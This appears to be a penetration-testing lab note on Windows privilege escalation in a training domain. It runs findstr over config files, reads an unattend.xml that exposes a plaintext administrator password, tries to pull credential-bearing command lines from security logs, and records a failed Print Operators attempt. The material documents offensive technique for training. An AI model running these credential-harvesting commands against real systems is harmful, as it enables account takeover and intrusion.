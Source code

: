 findstr /si iamtheadministrator *.xml *.ini *.txt *.config

Windows\Panther\unattend.xml:<FullName>INLANEFREIGHT\iamtheadministrator</FullName>
Windows\Panther\unattend.xml:<Username>INLANEFREIGHT\iamtheadministrator</Username>
Windows\Panther\unattend.xml:<DisplayName>INLANEFREIGHT\iamtheadministrator</DisplayName>
Windows\Panther\unattend.xml:<Name>INLANEFREIGHT\iamtheadministrator</Name>
Windows\Panther\unattend.xml:<RegisteredOwner>INLANEFREIGHT\iamtheadministrator</RegisteredOwner>
Windows\Panther\unattend.xml:<CommandLine>cmd /C wmic useraccount where name="INLANEFREIGHT\iamtheadministrator" set PasswordExpires=false</CommandLine>

type Windows\Panther\unattend.xml

<ComputerName>WS001904</ComputerName>
<ProductKey>W269N-WFGWX-YVC9B-4J6C9-T83GX</ProductKey>
</component>
</settings>
<settings pass="oobeSystem">
<component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<AutoLogon>
<Password>
<Value>Inl@n3fr3ight_sup3rAdm1n!</Value>
<PlainText>true</PlainText>
</Password>
<Enabled>false</Enabled>
<Username>INLANEFREIGHT\iamtheadministrator</Username>
</AutoLogon>

net localgroup "Event Log Readers"
Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members

-------------------------------------------------------------------------------
The command completed successfully.

wevtutil qe Security /rd:true /f:text | Select-String "/user"
Access is denied.

Failed to open event query.
Access is denied.

Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
Get-WinEvent : Could not retrieve information about the Security log. Error: Attempted to perform an unauthorized
operation..

c:\Windows\System32>sc start dns
[SC] StartService: OpenService FAILED 1060:

The specified service does not exist as an installed service.

### Try to abuse Print Operators but failed because unable to compile exploit on target
